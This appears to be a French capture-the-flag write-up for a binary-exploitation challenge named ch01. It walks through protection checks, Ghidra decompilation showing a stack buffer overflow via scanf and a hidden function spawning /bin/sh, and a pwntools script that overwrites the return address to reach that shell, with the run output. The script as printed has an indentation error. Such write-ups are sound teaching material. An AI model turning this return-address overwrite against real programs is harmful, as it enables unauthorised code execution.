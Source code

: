 ## to_pwn

```shell
┌─[luc@parrot]─[~/Desktop/LNE/to_pwn/untitled folder]
└──╼ $file ch01
ch01: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=71cdfa5bb5ce450ea6dcd1ad339f3a9459666ca5, for GNU/Linux 3.2.0, not stripped
┌─[luc@parrot]─[~/Desktop/LNE/to_pwn/untitled folder]
└──╼ $./ch01
./ch01: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by ./ch01)
```

On cherche alors sur internet la libc 2.34 puis le loader asscocié à cette libc puis on patch le binaire avec `pwninit` (voir method dans LNE to_rev)
On a maintenant notre binaire qui fonctionne.
```shell
┌─[✗]─[luc@parrot]─[~/Desktop/LNE/to_pwn/untitled folder]
└──╼ $./ch01_patched 
       .
       |
       |
    ,-'"`-.
  ,'       `.
  |  _____  |      .-( HEY you ! What's your ID ?! )
  | (_o_o_) |    ,'    
  |         | ,-'
  | |HHHHH| |
  | |HHHHH| |
-'`-._____.-'`-

 > ^C
```

On verifie les protections activées:
```shell
┌─[✗]─[luc@parrot]─[~/Desktop/LNE/to_pwn/untitled folder]
└──╼ $checksec ch01
Processing... ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 1/1 • 100.0%
                             Checksec Results: ELF                              
┏━━━━━━┳━━━━━┳━━━━━┳━━━━━━┳━━━━━━┳━━━━━━┳━━━━━━┳━━━━━┳━━━━━━┳━━━━━┳━━━━━━┳━━━━━┓
┃ File ┃ NX  ┃ PIE ┃ Can… ┃ Rel… ┃ RPA… ┃ RUN… ┃ Sy… ┃ FOR… ┃ Fo… ┃ For… ┃ Fo… ┃
┃      ┃     ┃     ┃      ┃      ┃      ┃      ┃     ┃      ┃     ┃      ┃ Sc… ┃
┡━━━━━━╇━━━━━╇━━━━━╇━━━━━━╇━━━━━━╇━━━━━━╇━━━━━━╇━━━━━╇━━━━━━╇━━━━━╇━━━━━━╇━━━━━┩
│ ch01 │ Yes │ Yes │  No  │ Full │  No  │  No  │ Yes │  No  │ No  │  No  │  0  │
└──────┴─────┴─────┴──────┴──────┴──────┴──────┴─────┴──────┴─────┴──────┴─────┘
┌─[luc@parrot]─[~/Desktop/LNE/to_pwn/untitled folder]
└──╼ $gdb ch01
......
Reading symbols from ch01...
(No debugging symbols found in ch01)
gef➤  checksec
[+] checksec for '/home/luc/Desktop/LNE/to_pwn/untitled folder/ch01'
[*] .gef-2b72f5d0d9f0f218a91cd1ca5148e45923b950d5.py:L8764 'checksec' is deprecated and will be removed in a feature release. Use Elf(fname).checksec()
Canary                        : ✘ 
NX                            : ✓ 
PIE                           : ✓ 
Fortify                       : ✘ 
RelRO                         : Full

```
Donc on a :
- Stack non exécutable  ( on ne peut donc pas mettre unshellcode sur la stack puis retouner sur la stack pour l'exécuter )
- PIE  ( mapping random ==> on ne peut pas savoir à l'avance ou sera mappé l'addresse de base du binaire et donc on peut pas savoir à l'avance ou sont les fonctions main etc ... )
- Full RelRo ( On ne peut pas overwrite des entrées dans la GOT car readOnly)

On charge ensuuite le binaire dans ghidra:
*Main*
```c
undefined8 main(void)

{
  check_id();
  return 0;
}
```
*check_id*
```c
void check_id(void)

{
  undefined local_28 [32];
  
  bender("HEY you ! What\'s your ID ?!");
  printf("\n > ");
  __isoc99_scanf(&DAT_0010210f,local_28);
  printf("\n...ID: \"%s\" NOT RECOGNIZED !\n...END OF TRANSMISSION\n",local_28);
  return;
}
```
*bender*
```c

void bender(undefined8 param_1)

{
  printf("       .\n       |\n       |\n    ,-\'\"`-.\n  ,\'       `.\n  |  _____  |      .-( %s )\n   | (_o_o_) |    ,\'    \n  |         | ,-\'\n  | |HHHHH| |\n  | |HHHHH| |\n-\'`-._____.-\'`-\n"
         ,param_1);
  return;
}

```
*suss*
```
void suss(void)

{
  puts("\n...ID: \"ROOT\" RECOGNIZED !");
  bender("You now have full access");
  system("/bin/sh\n");
  return;
}

```

En passant à l'analyse dynamique, on s'aperçoit que scanf rajoute à chaque fois un null bytes à la fin de notre chaine, y'a pas de moyen obvious d'obtenir un leak, ça s'annonce mal.
Le binaire étant 64 bits, un bruteforce de l'ASLR n'est pas envisageable. 

Après avoir longtemps cherché, je ne trouve pas un moyen obvious d'avoir une code exec.

Après avoir longtemps réfléchis, j'ai trouvé comment récup l'addresse de la fonctions suss afin de rediréger le flux d'exec vers cette fonction, mais cela nécessite que gdb soit installé sur la machine cible, Mon exploit repose donc sur l'existence de gdb sur la machine cible.
Le voici.

```python
#!/usr/bin/env python3
from pwn import *
import subprocess

exe = ELF("./ch01_patched")
libc = ELF("./libc.so(7).6")
context.binary = exe

suss_addr = ''

def conn():
	global suss_addr
	if args.LOCAL:
		r = process([exe.path], level="error")
			if args.GDB:
				output = subprocess.getoutput('gdb -batch -ex "attach $(pgrep -n ch01)" -ex "x/x suss" -ex "quit" | grep -m 1 "suss"')
				suss_addr = output.split('<suss')[0].split("\n")[1].strip()
		else:
			r = remote("addr", 1337)
	return r

  

def execute():
	global suss_addr
	r = conn()
	payload = b'\x41'* 40 + p64(int(suss_addr, 16))
	r.sendline(payload)
	return r

def main():
	r = execute()
	r.interactive()

if __name__ == "__main__":
	main()
```

et quand on exécute: 

```
┌─[luc@parrot]─[~/Desktop/LNE/to_pwn/untitled folder]
└──╼ $python3 solve.py LOCAL GDB
[*] '/home/luc/Desktop/LNE/to_pwn/untitled folder/ch01_patched'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'.'
[*] '/home/luc/Desktop/LNE/to_pwn/untitled folder/libc.so(7).6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
       .
       |
       |
    ,-'"`-.
  ,'       `.
  |  _____  |      .-( HEY you ! What's your ID ?! )
  | (_o_o_) |    ,'    
  |         | ,-'
  | |HHHHH| |
  | |HHHHH| |
-'`-._____.-'`-

 > 
...ID: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xd71|8\xdbU" NOT RECOGNIZED !
...END OF TRANSMISSION

...ID: "ROOT" RECOGNIZED !
       .
       |
       |
    ,-'"`-.
  ,'       `.
  |  _____  |      .-( You now have full access )
  | (_o_o_) |    ,'    
  |         | ,-'
  | |HHHHH| |
  | |HHHHH| |
-'`-._____.-'`-
$  
```